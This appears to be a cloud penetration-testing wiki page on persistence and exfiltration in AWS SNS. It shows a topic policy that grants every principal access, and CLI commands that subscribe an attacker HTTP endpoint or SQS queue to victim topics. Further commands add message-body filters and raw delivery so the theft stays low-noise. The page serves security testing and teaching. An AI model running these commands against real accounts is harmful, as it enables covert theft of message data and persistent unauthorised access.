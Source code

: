 # AWS - SNS Persistence

## SNS

For more information check:

[[../../aws-services/aws-sns-enum.md]]

### Persistence

When creating a **SNS topic** you need to indicate with an IAM policy **who has access to read and write**. It's possible to indicate external accounts, ARN of roles, or **even "\*"**.\
The following policy gives everyone in AWS access to read and write in the SNS topic called **`MySNS.fifo`**:

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "__default_statement_ID",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "SNS:Publish",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:DeleteTopic",
        "SNS:ListSubscriptionsByTopic",
        "SNS:GetTopicAttributes",
        "SNS:AddPermission",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
      "Condition": {
        "StringEquals": {
          "AWS:SourceOwner": "318142138553"
        }
      }
    },
    {
      "Sid": "__console_pub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Publish",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    },
    {
      "Sid": "__console_sub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    }
  ]
}
```

### Create Subscribers

To continue exfiltrating all the messages from all the topics and attacker could **create subscribers for all the topics**.

Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used.

```bash
aws sns subscribe --region <region> \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

### Covert, selective exfiltration via FilterPolicy on MessageBody

An attacker with `sns:Subscribe` and `sns:SetSubscriptionAttributes` on a topic can create a stealthy SQS subscription that only forwards messages whose JSON body matches a very narrow filter (for example, `{"secret":"true"}`). This reduces volume and detection while still exfiltrating sensitive records.

**Potential Impact**: Covert, low-noise exfiltration of only targeted SNS messages from a victim topic.

Steps (AWS CLI):
- Ensure the attacker SQS queue policy allows `sqs:SendMessage` from the victim `TopicArn` (Condition `aws:SourceArn` equals the `TopicArn`).
- Create SQS subscription to the topic:

  ```bash
  aws sns subscribe --region us-east-1 --topic-arn TOPIC_ARN --protocol sqs --notification-endpoint ATTACKER_Q_ARN
  ```

- Set the filter to operate on the message body and only match `secret=true`:

  ```bash
  aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicyScope --attribute-value MessageBody
  aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name FilterPolicy --attribute-value '{"secret":["true"]}'
  ```

- Optional stealth: enable raw delivery so only the raw payload lands in the receiver:

  ```bash
  aws sns set-subscription-attributes --region us-east-1 --subscription-arn SUB_ARN --attribute-name RawMessageDelivery --attribute-value true
  ```

- Validation: publish two messages and confirm only the first is delivered to the attacker queue. Example payloads:

  ```json
  {"secret":"true","data":"exfil"}
  {"secret":"false","data":"benign"}
  ```

- Cleanup: unsubscribe and delete the attacker SQS queue if created for persistence testing.

